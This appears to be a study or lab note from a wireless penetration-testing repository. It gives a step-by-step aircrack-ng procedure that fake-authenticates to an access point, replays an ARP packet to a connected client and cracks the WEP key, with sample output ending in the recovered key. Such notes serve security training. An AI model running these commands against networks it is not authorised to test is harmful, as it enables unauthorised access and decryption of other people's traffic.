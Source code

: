 #  Interactive Packet Replay - (Attacking a Connected Client) (WEP)

This attack allows you to choose a specific packet for replaying (injecting). The attack can obtain packets to replay from two sources. The first being a live flow of packets from your wireless card. The second being from a pcap file. Standard Pcap format (Packet CAPture, associated with the libpcap library http://www.tcpdump.org), is recognized by most commercial and open-source traffic capture and analysis tools. Reading from a file is an often overlooked feature of aireplay-ng. This allows you read packets from other capture sessions or quite often, various attacks generate pcap files for easy reuse. A common use of reading a file containing a packet your created with packetforge-ng.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least one client must be associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the interactive attack against the client and wait
sudo aireplay-ng --interactive -b $BSSID -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 $INTERFACE
```
* View output. This is a candidate ARP packet to be used for injection.

```
No source MAC (-h) specified. Using the device MAC (AB:CD:EF:12:34:56)
Read 171 packets...

        Size: 86, FromDS: 1, ToDS: 0 (WEP)

              BSSID  =  AA:BB:CC:DD:EE:FF
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  11:22:33:44:55:FF

        0x0000:  0842 0000 ffff ffff ffff 009f a924 b928  .B...........$.(
        0x0010:  109f a924 b925 e0fc b18f 0500 0991 2b11  ...$.%........+.
        0x0020:  b707 3a2c 50b7 4f19 3098 3cd4 9e38 21cb  ..:,P.O.0.<..8!.
        0x0030:  559c d938 d229 04db 45d8 a4b7 85fe 6634  U..8.)..E.....f4
        0x0040:  4a7d 5996 5822 817e 2b7a 0c12 0326 0661  J}Y.X".~+z...&.a
        0x0050:  cd3e 57e8 9d1f                           .>W...

Use this packet ?

# Say yes and monitor the data ... it should be getting big.
# If not, then ctrl-c ... try another
# Keep doing until the data starts to increase
```

```bash
# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* Look for the suscessful output - assuming enough IVs are available

```
Reading packets, please wait...
Opening wifu-01.cap
Read 806868 packets.

   #  BSSID              ESSID                     Encryption

   1  AA:BB:CC:DD:EE:FF  wifu                      WGot 184612 out of 180000 IVsStarting PTW attack with 184612 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

### Using an Existing AP Packet

```bash
# Use an existing AP packet file
sudo aireplay-ng --interactive -r replay_src-0613-135427.cap $INTERFACE
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Interactive Packet Replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)
